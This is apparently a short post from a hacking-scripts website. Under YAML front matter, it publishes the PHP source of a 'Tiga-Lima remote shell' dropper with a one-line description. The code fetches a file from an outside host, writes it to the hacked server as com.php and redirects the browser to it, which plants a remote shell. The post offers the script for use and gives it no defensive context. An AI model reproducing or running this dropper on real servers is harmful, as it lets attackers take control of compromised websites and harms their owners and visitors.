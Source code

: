 ```yaml
---
id: 62
title: Tiga-Lima remote shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=62
permalink: /tiga-lima-remote-shell/
categories:
  - PHP
  - Tiga-Lima
tags:
  - PHP
  - Tiga-Lima
---
```

This is a very simple script that attempts to write the contents of a remote file (presumably some sort of hack script) to a local file on the hacked server.


### Tiga-Lima remote shell source code

{% highlight php %}<?php
$namafile="com.php";
$file = fopen($namafile ,'w+');
$fa=file_get_contents('http://www.aliggroup.com/upload/log.txt');
$write = fwrite ($file ,$fa);
header ("location:com.php");
?>
{% endhighlight %}